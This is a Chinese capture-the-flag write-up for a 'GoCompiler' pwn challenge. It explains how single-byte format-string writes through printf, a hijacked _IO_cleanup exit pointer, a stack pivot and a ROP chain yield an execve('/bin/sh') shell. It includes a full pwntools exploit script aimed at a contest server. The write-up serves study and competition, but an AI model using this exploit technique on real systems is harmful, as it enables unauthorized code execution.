 # GoCompiler

## 文件属性

|属性  |值    |
|------|------|
|Arch  |amd64 |
|RELRO |No    |
|Canary|off   |
|NX    |on    |
|PIE   |off   |
|strip |no    |
|go    |1.20.3|

## 解题思路

用go写的go语言编译器，可以将go转换为汇编并用gcc编译，看调试信息写到了
**github.com/klang/ugo** ，但实际上无法访问，不过看项目有点类似于已经公开的“凹语言”，
可是实际测试对go的支持十分有限。

go的逆向太困难了，一些函数调用根本看不出来做了什么操作，通过看函数名和rr测试，
发现了`ugo`允许调用C语言的函数，但仅限于`write`和`printf`，并且`printf`的格式化参数有限制，
必须包含且仅包含一个`%`符号。

> [!NOTE]
> rr是Mozilla开发的一个调试工具，可以实现 **timeless debug** ，也就是说，
> 它通过提前录制程序行为，稍后就可以回放程序，实现“逆向调试”。不过你也注意到了，
> 你并不是在真正调试程序，你只是在回溯程序的行为。但是借助这个特性，我们可以面对go这种难调的家伙，
> 通过定位确定的错误点，一步一步逆向推导，就可以猜测出程序的行为，相较静态检查多了灵活性。
> 这次的很多发现，包括`printf`的行为，都是我通过rr看出来的。

由于有了`printf`原语，我们可以通过`%hhn`来一个字节一个字节改内存。并且由于结果程序是无PIE的，
我们可以直接修改bss区的内容。

> 不使用`%hn`等是因为由于只能用1个%，用`%hn`写数据需要堆砌大量的无效字符，
> 最终会导致程序过大，因此`%hhn`是权衡过后的更佳选择。

接下来我们就可以利用如下原语，将payload注入到`INSERT`处，
反复调用`printf('1' * n, addr)`的方式来任意写

```go
// malicious.ugo
package main

func main() int {
    var i int = 0
        INSERT
    return 0
}
```

任意写有了，写什么好呢？原本我的想法是打apple，但奈何apple实在是太长了，
并且程序中也没有`system`，于是我找了找其他的函数指针，结果发现了在`exit`中调用了一处指针，
原先这个地方是`_IO_cleanup`，但是这个地方是可写的，且没有受`PTR_MANGLE`加密，
可以直接劫持。看了一下调用时的寄存器状态，此时正`call rbx`，因此rbx刚好是这个指针的地址，
是我们可以控制的，然后就是找gadget了。

经过令人近乎绝望的查找，我最终锁定了一个gadget：`mov esp, ebx; mov rbx, qword ptr [rsp]; add rsp, 0x30; ret`，
由于没有PIE，因此可以做栈迁移到`ebx + 0x30`上！我只要将数据写到`ebx + 0x30`的地址上，
就可以实现rop，只要构造`syscall(SYS_execve, "/bin/sh", NULL, NULL)`就可以拿到shell。

> [!IMPORTANT]
> `ebx + 0x30`的地方并不是可以任意写的，在调`_IO_cleanup`之前，会先运行`__exit_funcs`中的hook，
> 调用`call_fini -> __preinit_array_start -> __do_global_dtor_aux -> __deregister_frame_info_bases`，
> 在最后一个函数中会判断`object+24`是不是`&__EH_FRAME_BEGIN__`，如果不是则会继续迭代，
> 导致发生SIGSEGV，而`object`刚好在`ebx + 0x30`不远处，还需要绕过这个地方。
>
> ![bssStatus](assets/bss.png)

剩下的就是先把payload伪造好，交给容器里的gcc编译，这样由于payload长度固定，生成出来的gadget位置基本也不会变，
执行就可以获取shell了

> [!NOTE]
> 原先的方案是声明字符串的，由于llvm的特性，声明的字符串会在程序中保留一份，因此"/bin/sh"可以借此获取，
> 不过大概是由于程序中有太多字符串了，因此每次调整payload，即使长度没有变化，字符串的地址也会变化。
> 最后选择了把"/bin/sh"直接写到了bss上固定位置。

## EXPLOIT

```python
from pwn import *
import os
context.terminal = ['tmux','splitw','-h']
EXE = './hello'

def mkstr(val: int) -> str:
    return '1' * val

def w1byte(addr: int, val: int) -> str:
    return f'   i = {addr:#x}\n    printf("{mkstr(val)}%hhn", i)\n'

def wnbytes(n: int, addr: int, val: int) -> str:
    base = ''
    for i in range(n):
        base += w1byte(addr + i, (val >> (i * 8)) & 0xff)
    return base

def create_ugo():
    with open('hello.ugo', 'r') as goin:
        base = goin.read()
    ugo = ''
    ugo += wnbytes(4, 0x4c8288, 0x484a8e) # mov esp, ebx
    ugo += wnbytes(7, 0x4c8298, u64(b'/bin/sh\0')) # /bin/sh
    ugo += wnbytes(4, 0x4c82b8, 0x4020df) # pop rdi
    ugo += wnbytes(8, 0x4c82c0, 0x4c8298) # "/bin/sh"
    ugo += wnbytes(4, 0x4c82c8, 0x485acb) # pop rdx => 0; pop rbx <- check;
    ugo += wnbytes(4, 0x4c82e0, 0x44fd47) # pop rax
    ugo += wnbytes(1, 0x4c82e8, 59)       # 59
    ugo += wnbytes(4, 0x4c82f0, 0x401e94) # syscall
    with open('malicious.ugo', 'w') as goout:
        goout.write(base.replace('INSERT', ugo))
    
def payload(lo:int):
    global sh
    if lo:
        sh = process(EXE)
    else:
        sh = remote('1.95.58.58', 2102)

    creating = True
    if os.path.exists('malicious.ugo'):
        ch = input('malicious.ugo exists. Regenerate? [y/n]')
        if ch == 'n' or ch == '':
            creating = False
    if creating:
        info('Generate malicious.ugo.')
        create_ugo()

    if not lo:
        with open('malicious.ugo', 'r') as mal:
            src = mal.read()
        sh.sendline(src.encode() + b'end')

    sh.clean()
    sh.interactive()
    sh.close()
```

![flag](assets/goFlag.png)

## 尾声

比赛结束后，看别人的wp，都没有用到`printf`，都是通过`write`溢出打印指针，然后走栈溢出rop
（给了栈溢出示例，但是我没有编译运行）

除此之外，本次exp用到的改的`&_IO_cleanup`，即`__elf_set___libc_atexit_element__IO_cleanup__`，
是可写的，却从未看到有人这么利用过，拿做过的题看了一下，从libc 2.23到2.35，虽然有这个符号，
但它位于只读段，没有利用价值...甚至在2.38之后这个符号直接被删掉了，
`exit`固定会调用`_IO_cleanup`。只能说运气好，静态编译把这个符号变成可写的了。

## 参考

[rr: Record and Replay Framework](https://github.com/rr-debugger/rr)
